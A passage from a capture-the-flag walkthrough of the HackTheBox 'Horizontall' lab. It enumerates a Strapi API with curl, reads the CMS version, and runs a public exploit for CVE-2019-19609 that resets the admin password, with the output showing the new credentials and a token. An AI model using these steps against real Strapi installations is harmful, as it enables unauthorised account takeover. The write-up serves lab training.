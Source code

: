 When we open the page `/reviews`, we see an api's output:
```bash
❯ curl api-prod.horizontall.htb/reviews -s | jq
[
  {
    "id": 1,
    "name": "wail",
    "description": "This is good service",
    "stars": 4,
    "created_at": "2021-05-29T13:23:38.000Z",
    "updated_at": "2021-05-29T13:23:38.000Z"
  },
  {
    "id": 2,
    "name": "doe",
    "description": "i'm satisfied with the product",
    "stars": 5,
    "created_at": "2021-05-29T13:24:17.000Z",
    "updated_at": "2021-05-29T13:24:17.000Z"
  },
  {
    "id": 3,
    "name": "john",
    "description": "create service with minimum price i hop i can buy more in the futur",
    "stars": 5,
    "created_at": "2021-05-29T13:25:26.000Z",
    "updated_at": "2021-05-29T13:25:26.000Z"
  }
]
```
From this last page we can enumerate three possible users: `wail`, `doe` and `john`.

### RCE (strapi)
Researching, we found out vulnerabilities related to RCE on strapi version `3.0.0-beta.17.4`, but we don't know the version. Anyway, as we have got access to the `/admin` page we can retrieve the version:
```bash
❯ curl api-prod.horizontall.htb/admin/init -s | jq
{
  "data": {
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
    "currentEnvironment": "development",
    "autoReload": false,
    "strapiVersion": "3.0.0-beta.17.4"
  }
}
```
And we confirm that the version is `3.0.0-beta.17.4`. So let's try this [exploit](https://www.exploit-db.com/exploits/50239) following the CVE-2019-19609:
```bash
❯ python3 Exploits/50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0MDk1NTg5LCJleHAiOjE2NTY2ODc1ODl9.khqXMWX-5W7zw5qLDn2byNZD4lYwAm3K2L_8XCCkZcY


$> 
```